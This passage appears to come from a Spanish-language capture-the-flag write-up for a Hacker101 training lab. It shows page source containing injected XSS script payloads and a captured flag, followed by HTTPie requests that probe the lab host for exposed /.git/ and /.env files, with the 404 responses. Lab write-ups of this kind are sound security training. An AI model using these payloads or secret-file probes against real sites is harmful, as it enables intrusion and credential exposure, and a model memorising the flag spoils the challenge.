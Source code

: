 ```HTTP
<li><a href="page/1"><script>alert("^FLAG^d01d5e593c759398bdf0a63d8abfefff6d94c87337644afc7637b7f2b81c9418$FLAG$");</script><script>alert(1);</script></a></li>
<li><a href="page/2">Markdown Test</a></li>
<li><a href="page/9"></a></li>
<li><a href="page/10"><script>alert("^FLAG^d01d5e593c759398bdf0a63d8abfefff6d94c87337644afc7637b7f2b81c9418$FLAG$");</script><form src='javascript:alert(1);'></a></li>
        </ul>
        <a href="page/create">Create a new page</a>
    </body>
</html>
```

**Flag encontrada**

`^FLAG^d01d5e593c759398bdf0a63d8abfefff6d94c87337644afc7637b7f2b81c9418$FLAG$`

**Nota:** La flag se encuentra después de haber ingresado un payload XSS en los campos de la página 1.

**Intento de acceso a `/.git/`**

```bash
http -v GET "https://c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com/.git/"
```

```HTTP
GET /.git/ HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 404 NOT FOUND
Connection: keep-alive
Content-Length: 207
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 17:34:12 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

**Intento de acceso a `/.env`**
```HTTP
GET /.env HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 404 NOT FOUND
Connection: keep-alive
Content-Length: 207
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 18:22:00 GMT
Server: openresty/1.27.1.2
```